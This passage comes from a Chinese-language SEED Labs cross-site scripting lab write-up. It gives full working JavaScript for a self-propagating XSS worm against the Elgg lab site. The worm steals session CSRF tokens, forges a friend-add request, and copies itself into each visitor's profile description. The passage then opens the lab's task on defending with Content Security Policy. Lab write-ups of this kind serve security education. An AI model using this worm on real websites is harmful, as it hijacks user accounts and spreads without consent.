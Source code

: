 先使用Alice访问Samy，然后再用Boby访问Alice，发现大家的brief description都变成了这段脚本，并且添加Samy为好友。

## DOM Approach

利用id来获取html内容然后自复制，代码如下：

```html
<script id="worm">
window.onload = function(){
		var Ajax=null; 
		var userName="&name="+elgg.session.user.name;
		var guid="&guid="+elgg.session.user.guid;
		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
		var token="&__elgg_token="+elgg.security.token.__elgg_token;
		var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token; 
		Ajax=new XMLHttpRequest(); 
		Ajax.open("GET", sendurl, true); 
		Ajax.send(); 
		
		var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
		var jsCode = document.getElementById("worm").innerHTML;
		var tailTag = "</" + "script>";
		var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
		
		var userName="&name="+elgg.session.user.name;
		var guid="&guid="+elgg.session.user.guid;
		var content="briefdescription=" + wormCode + userName + guid + ts + token;
		var samyGuid=59;
		var sendurl="http://www.seed-server.com/action/profile/edit";
		if(elgg.session.user.guid!=samyGuid)
		{
				var Ajax=null;
				Ajax=new XMLHttpRequest();
				Ajax.open("POST", sendurl, true);
				Ajax.setRequestHeader("Content-Type",
				"application/x-www-form-urlencoded");
				Ajax.send(content);
		}
}
</script>
```

经过同样的测试可以发现Boby的brief description同样被修改。

# Task 7: Defeating XSS Attacks Using CSP

首先观察一下现象。

www.examplea.com：

![Screenshot 2024-04-26 at 3.13.29 PM.png](/assets/img/2024-04-26-Cross-Site Scripting (XSS) Attack Lab/Screenshot_2024-04-26_at_3.13.29_PM.png)
